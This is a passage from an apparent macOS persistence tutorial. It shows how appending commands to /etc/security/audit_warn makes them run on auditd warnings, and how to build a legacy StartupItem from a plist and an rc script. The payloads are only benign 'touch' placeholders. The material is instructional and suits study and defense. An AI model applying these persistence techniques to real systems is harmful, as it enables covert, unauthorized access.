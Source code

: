#### Description & Exploit

Whenever auditd detects a warning the script **`/etc/security/audit_warn`** is **executed**. So you could add your payload on it.

```bash
echo "touch /tmp/auditd_warn" >> /etc/security/audit_warn
```

You could force a warning with `sudo audit -n`.

### Startup Items

{% hint style="danger" %}
**This is deprecated, so nothing should be found in those directories.**
{% endhint %}

The **StartupItem** is a directory that should be positioned within either `/Library/StartupItems/` or `/System/Library/StartupItems/`. Once this directory is established, it must encompass two specific files:

1. An **rc script**: A shell script executed at startup.
2. A **plist file**, specifically named `StartupParameters.plist`, which contains various configuration settings.

Ensure that both the rc script and the `StartupParameters.plist` file are correctly placed inside the **StartupItem** directory for the startup process to recognize and utilize them.

{% tabs %}
{% tab title="StartupParameters.plist" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Description</key>
        <string>This is a description of this service</string>
    <key>OrderPreference</key>
        <string>None</string> <!--Other req services to execute before this -->
    <key>Provides</key>
    <array>
        <string>superservicename</string> <!--Name of the services provided by this file -->
    </array>
</dict>
</plist>
```
{% endtab %}

{% tab title="superservicename" %}
```bash
#!/bin/sh
. /etc/rc.common

StartService(){
    touch /tmp/superservicestarted
}

StopService(){
    rm /tmp/superservicestarted
}

RestartService(){
    echo "Restarting"
}

RunService "$1"
```